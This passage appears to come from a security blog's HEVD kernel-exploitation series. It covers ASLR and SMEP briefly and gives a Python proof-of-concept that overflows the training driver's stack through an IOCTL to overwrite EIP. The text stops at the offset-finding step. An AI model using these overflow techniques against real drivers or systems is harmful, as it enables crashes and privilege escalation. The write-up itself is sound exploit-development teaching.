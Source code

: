`ASLR` and `kASLR` (Kernel `ASLR`) is not an issue either, because it
works by randomizing the base memory of the modules at every restart,
but if we have local access, there are functions in the Windows API that
will reveal the current kernel base address.

However, other protections come to scene when trying to exploit at
kernel level, like `DEP`, `SMEP`, `CFG`, etc. We will surely come across
with some of them later. Stay tuned.

## Stack Overflow exploitation

We left off our [previous article](../hevd-dos/) performing a DoS to the
target machine, on where we used the following exploit:

``` python
#!/usr/bin/env python3
"""
HackSysExtremeVulnerableDrive Stack Overflow.

Vulnerable Software: HackSysExtremeVulnerableDrive
Version: 3.00
Exploit Author: Andres Roldan
Tested On: Windows 10 1703
Writeup: https://fluidattacks.com/blog/hevd-smep-bypass/
"""

from infi.wioctl import DeviceIoControl

DEVICE_NAME = r'\\.\HackSysExtremeVulnerableDriver'

IOCTL_HEVD_STACK_OVERFLOW = 0x222003
SIZE = 3000

PAYLOAD = (
    b'A' * SIZE
)

HANDLE = DeviceIoControl(DEVICE_NAME)
HANDLE.ioctl(IOCTL_HEVD_STACK_OVERFLOW, PAYLOAD, SIZE, 0, 0)
```

And we were able to overwrite `EIP` with the value `41414141`. If we are
going to perform something more interesting, we must start by locating
the exact offset on which `EIP` is overwritten. Just like on any other
user-space exploitation process, we can create a cyclic pattern to find
that offset. We can use `mona` to do that:

<div class="imgblock">

![Mona Cyclic Pattern](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330915/blog/hevd-smep-bypass/mona1_bhfpei.gif)

</div>

Then, update our exploit:
